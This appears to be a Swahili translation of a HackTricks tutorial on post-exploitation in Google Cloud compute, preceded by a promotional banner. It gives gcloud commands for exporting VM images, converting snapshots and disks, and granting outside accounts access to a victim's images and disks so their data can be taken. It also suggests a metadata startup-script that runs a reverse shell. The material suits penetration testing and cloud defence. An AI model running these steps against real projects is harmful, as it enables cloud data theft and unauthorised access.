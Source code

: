 # GCP - Uchimbaji baada ya Kuvamia Kompyuta

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Compute

Kwa habari zaidi kuhusu Compute na VPC (Uunganishaji) angalia:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Hifadhi & Angalia Picha kwa Kitaalamu

Hii ingewezesha muhusika kufikia **data iliyomo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VM zinazoendesha** na kufikia data yao bila kuwa na ufikiaji wa VM inayoendesha.

Inawezekana kuhifadhi picha ya VM kwenye ndoo na kisha kuipakua na kuimounti kwa kitaalamu kwa kutumia amri:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Kabla ya kutekeleza hatua hii, mkaidi anaweza kuhitaji mamlaka juu ya chombo cha kuhifadhi na kwa hakika **mamlaka juu ya cloudbuild** kwani ni **huduma** ambayo itaulizwa kutekeleza kuuza nje. Aidha, ili hii ifanye kazi, chombo cha kujenga kodi na chombo cha kuhesabu kinahitaji ruhusa za kipekee. Chombo cha kujenga `<project-id>@cloudbuild.gserviceaccount.com` kinahitaji:

* majukumu/iam.serviceAccountTokenCreator
* majukumu/compute.admin
* majukumu/iam.serviceAccountUser

Na chombo cha `<project-id>-compute@developer.gserviceaccount.com` kinahitaji:

* majukumu/compute.storageAdmin
* majukumu/storage.objectAdmin

### Kuuza Nje & Kuchunguza Picha na Diski Mahali Pande za Kiasili

Si rahisi kuuza nje moja kwa moja picha na diski, lakini ni rahisi kubadilisha picha kuwa diski, diski kuwa picha na kufuata **sehemu iliyopita**, kuuza nje picha hiyo ili kuichunguza kwa upande wa kiasili

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kuchunguza Picha na Kuunda VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye picha** au ndani ya **VM inayotumika** ambapo mshambuliaji **ameunda picha,** inawezekana kutoa ufikiaji wa akaunti ya nje juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha tengeneza VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa haukuweza kutoa ufikiaji wa akaunti yako ya nje juu ya picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa waathiriwa na **kufanya metadata kutekeleza reverse shell** ili kupata ufikiaji wa picha kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Angalia Snapshot/Disk ikibebwa kwa VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua zilizopita.**

Au unaweza **kutoa akaunti ya nje upatikanaji** juu ya diski (ikiwa hatua ya kuanzia ni snapshot toa upatikanaji kwenye snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Ambatisha diski** kwa kifaa:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Funga diski ndani ya VM:

1.  **Ingia kwa SSH kwenye VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Tambua Diski**: Mara baada ya kuingia kwenye VM, tambua diski mpya kwa kuorodhesha vifaa vya diski. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fomati na Funga Diski** (ikiwa ni diski mpya au isiyo na fomati):
*   Unda sehemu ya kufunga:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Funga diski:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa **hauwezi kutoa upatikanaji kwa mradi wa nje** kwa nakala rudufu au diski, unaweza kuhitaji k**utekeleza hatua hizi ndani ya kifaa kwenye mradi huo huo kama nakala rudufu/disiki**.
